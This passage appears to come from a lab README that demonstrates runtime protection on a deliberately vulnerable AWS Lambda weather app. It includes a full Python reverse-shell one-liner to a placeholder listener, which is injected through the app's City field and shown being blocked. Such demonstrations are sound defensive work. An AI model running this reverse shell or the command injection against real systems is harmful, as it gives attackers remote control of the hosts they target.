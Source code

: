 ```
If the behavioral protection was not enabled, this would have returned the environment variables. However, as you can see, the output is ```""```. You will also see a corresponding alert in the Threat&Events Tab. <br>

![](images/block.PNG)

### Reverse Shell Command Injection

For a more malicious script, you can try to run a reverse shell.<br>

Here is the command to insert:

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ENTER_YOUR_LISTENING_IP_HERE",<ENTER_PORT_TO_SEND_SHELL));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

It will look like this in the command:

```
λ .\activity.py
Weather App - Lambda Function
Target: <insert-api-gateway-here>
City: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ENTER_YOUR_LISTENING_IP_HERE",<ENTER_PORT_TO_SEND_SHELL));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
API Key: backdoor
""
```

Here is the corresponding alert:

![](images/block1.PNG)

## Cleanup

To remove this function, create or modify a file call <b>_build_flag</b>. This will run the destroy pipeline and cleanup the entire deployment.
